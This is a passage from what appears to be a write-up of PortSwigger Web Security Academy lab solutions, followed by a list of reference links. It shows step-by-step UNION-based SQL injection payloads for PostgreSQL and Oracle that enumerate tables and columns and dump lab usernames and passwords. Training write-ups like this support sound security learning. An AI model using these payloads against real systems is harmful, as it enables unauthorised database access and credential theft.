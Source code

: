     8.0.28
    ```

9. #### **SQL injection attack, listing the database contents on non-Oracle databases [on PostgreSQL]**

    ```sql
    '
    '+ORDER+BY+10--+
    ...
    '+ORDER+BY+2--+
    '+UNION+SELECT+null,null--+
    '+UNION+SELECT+null,'a'--+
    '+UNION+SELECT+null,@@version--+
    '+UNION+SELECT+null,version()--+
    '+UNION+SELECT+null,table_name+FROM+information_schema.tables--+

    pg_extension
    ...
    pg_stat_ssl


    '+UNION+SELECT+null,column_name+FROM+information_schema.columns+WHERE+table_name='users_ofvjie'--+

    username_mlkloc
    password_sbcyoy


    '+UNION+SELECT+null,username_mlkloc||':'||password_sbcyoy+FROM+users_ofvjie--+

    ljucg64gbyb9im1d4qnr:administrator
    k4fnsu3ypxf6xhvdl6uo:wiener
    asqnndhx0duy8o6ihvcd:carlos
    ```

10. #### **SQL injection attack, listing the database contents on Oracle**

    ```sql
    '
    '+ORDER+BY+10--+
    ...
    '+ORDER+BY+2--+
    '+UNION+SELECT+null,null--+
    '+UNION+SELECT+null,'a'--+
    '+UNION+SELECT+null,banner+FROM+v$version--+
    '+UNION+SELECT+null,table_name+FROM+all_tables--+

    ACCESS$
    ALERT_QT
    APEX$_ACL
    ...
    XSTREAM$_SUBSET_RULES
    XSTREAM$_SYSGEN_OBJS
    _default_auditing_options_


    '+UNION+SELECT+null,column_name+FROM+all_tab_columns+WHERE+table_name='USERS_SRDZXP'--+


[web_security_academy]: https://portswigger.net/web-security
[author's_twitter]:     https://www.twitter.com/UDPsycho
[wsa_getting_started]:  https://portswigger.net/web-security/getting-started
[wsa_learning_path]:    https://portswigger.net/web-security/learning-path
[wsa_all_labs]:         https://portswigger.net/web-security/all-labs
[burp_desktop]:         https://portswigger.net/burp/documentation/desktop
[burp_video_tutorials]: https://portswigger.net/burp/pro/video-tutorials
[sql_injection]:                     https://portswigger.net/web-security/sql-injection
[sqli_cheat_sheet]:                  https://portswigger.net/web-security/sql-injection/cheat-sheet
[sqli_retrieving_hidden_data]:       https://portswigger.net/web-security/sql-injection#retrieving-hidden-data
[sqli_subverting_application_logic]: https://portswigger.net/web-security/sql-injection#subverting-application-logic
[sqli_union_attacks]:                https://portswigger.net/web-security/sql-injection/union-attacks
[sqli_examining_the_database]:       https://portswigger.net/web-security/sql-injection/examining-the-database
[sqli_blind]:                        https://portswigger.net/web-security/sql-injection/blind
[sqli_script_conditional_responses]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20responses
[sqli_script_conditional_errors]:    https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20errors
[authentication]:                    https://portswigger.net/web-security/authentication
[auth_password_based]:               https://portswigger.net/web-security/authentication/password-based
[auth_script_ip_block]:              https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Broken%20brute-force%20protection%20IP%20block
[auth_script_account_lock]:          https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Username%20enumeration%20via%20account%20lock
[auth_multi_factor]:                 https://portswigger.net/web-security/authentication/multi-factor
[auth_other_mechanisms]:             https://portswigger.net/web-security/authentication/other-mechanisms
[auth_script_stay-logged-in_cookie]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Brute-forcing%20a%20stay-logged-in%20cookie
[directory_traversal]: https://portswigger.net/web-security/file-path-traversal
[command_injection]: https://portswigger.net/web-security/os-command-injection
[business_logic]:   https://portswigger.net/web-security/logic-flaws
[business_logic_1]: https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls
[business_logic_2]: https://portswigger.net/web-security/logic-flaws/examples#failing-to-handle-unconventional-input
[bussiness_logic_script_low_level]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Business%20Logic/Low-level%20logic%20flaw
[business_logic_3]: https://portswigger.net/web-security/logic-flaws/examples#making-flawed-assumptions-about-user-behavior
[business_logic_4]: https://portswigger.net/web-security/logic-flaws/examples#domain-specific-flaws
[business_logic_5]: https://portswigger.net/web-security/logic-flaws/examples#providing-an-encryption-oracle
[information_disclosure]: https://portswigger.net/web-security/information-disclosure
[access_control]: https://portswigger.net/web-security/access-control
[file_upload_vulnerabilities]: https://portswigger.net/web-security/file-upload
[file_upload_vulnerabilities_file_signature]: https://www.garykessler.net/library/file_sigs.html
[ssrf]:                       https://portswigger.net/web-security/ssrf
[ssrf_common_attacks]:        https://portswigger.net/web-security/ssrf#common-ssrf-attacks
[ssrf_blind_vulnerabilities]: https://portswigger.net/web-security/ssrf/blind
